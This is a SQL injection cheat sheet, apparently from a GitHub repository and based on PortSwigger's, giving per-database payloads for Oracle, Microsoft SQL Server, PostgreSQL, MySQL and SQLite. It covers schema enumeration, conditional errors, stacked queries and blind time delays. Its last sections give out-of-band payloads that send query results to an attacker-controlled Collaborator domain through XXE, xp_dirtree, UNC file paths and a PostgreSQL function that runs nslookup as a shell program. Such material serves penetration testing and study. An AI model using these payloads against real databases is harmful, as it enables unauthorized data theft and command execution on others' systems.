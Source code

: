 # SQLi Cheatsheet

**NOTE: Some of the information here have been taken from:**

- [PortSwigger.net](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [MySQL Docs](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)

### String Concatenation:
- Oracle 	`'foo'||'bar'`
- Microsoft 	`'foo'+'bar'`
- PostgreSQL 	`'foo'||'bar'`
- MySQL
  - `'foo' 'bar'` [Note the space between the two strings]
  - `CONCAT('foo','bar')`
  - `CONCAT(col1,col2...)`
- SQLite `'foo'||'bar'`

### Substring
**Remember: Index starts from 1**
- Oracle `SUBSTR('foobar', 4, 2)`
- Microsoft	`SUBSTRING('foobar', 4, 2)`
- PostgreSQL `SUBSTRING('foobar', 4, 2)`
- MySQL	`SUBSTRING('foobar', 4, 2)`
- SQLite `SUBSTR('foobar', 4, 2)`

### Comment
- Oracle 	`--comment`
- Microsoft
  - `--comment`
  - `/*comment*/`
- PostgreSQL
  - `--comment`
  - `/*comment*/`
- MySQL
  - `#comment`
  - `-- comment` *[Note the space after the double dash]*
  - `/*comment*/`
- SQLite ` -- comment` *[Only comments out a single line]*

### Database version
- Oracle
  - `SELECT banner FROM v$version`
  - `SELECT version FROM `v$instance
- Microsoft	`SELECT @@version`
- PostgreSQL `SELECT version()`
- MySQL	`SELECT @@version`

### Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

- SQLite
  `SELECT sql,name FROM sqlite_master WHERE type='table'`
  'sql' column is the schema (database) name, 'name' is the name of the table in that schema.

- MySQL

**Information:**

    - '**information_schema**' is the database that contains all information about all the database, table, column, etc names.*

    - *'**information_schema.tables**' table contain useful columns that show which table belongs to which database (and vice-versa):*
    
        - table_schema
        (database name)
        - table_name
        - table_rows
        (number of rows of table)
    - *'**information_schema.columns**' contain useful columns that show which column belongs to which table (and vice-versa)*:

      - table_schema
      (database name)
      - table_name
      - column_name

  **Queries:**

  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
- Microsoft `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
- MySQL `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `
- SQLite `CASE WHEN key='value1' THEN 'something' WHEN key='value2' THEN 'somethingelse'` *[Use this to cause errors]*

### Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- Oracle -	*Does not support batched queries.*
- Microsoft `QUERY-1-HERE; QUERY-2-HERE`
- PostgreSQL 	`QUERY-1-HERE; QUERY-2-HERE`
- MySQL - *Does not support batched queries.*

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- Oracle 	`dbms_pipe.receive_message(('a'),10)`
- Microsoft `WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT pg_sleep(10)`
- MySQL	`SELECT sleep(10)`
- SQLite `SELECT 1=randomblob(100000000)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`
- SQLite `CASE col_name WHEN 'something' THEN 1=randomblob(100000000) ELSE 1=randomblob(0)` *causes time delay if col_name='something'*

### DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

- **Oracle**
 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`
- **Microsoft**
  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
- **PostgreSQL**
  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
- **MySQL**
  *The following techniques work on Windows only:*
    - `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`
    - `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

### DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data. 

- **Oracle**
` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

- **Microsoft**
`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`

- **PostgreSQL**
  ```
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```

- **MySQL**
  *The following technique works on Windows only:*
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`
